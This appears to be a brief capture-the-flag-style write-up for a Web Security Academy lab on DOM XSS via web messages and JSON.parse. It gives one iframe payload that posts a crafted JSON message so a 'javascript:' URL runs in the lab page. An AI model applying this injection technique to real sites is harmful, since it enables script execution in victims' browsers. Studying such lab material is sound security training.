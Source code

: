 # DOM XSS using web messages and JSON.parse

![image](https://user-images.githubusercontent.com/60841283/153748114-09006135-d5fa-4fd7-9723-db0195328481.png)

Payload in exploit server (in Body section) :- 
```html
<iframe src="https://aced1f861f364f39c07a349c00ab0011.web-security-academy.net/#" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'></iframe>
```

![image](https://user-images.githubusercontent.com/60841283/153748070-22690cd2-b548-4f56-846c-bbc20163f2c1.png)
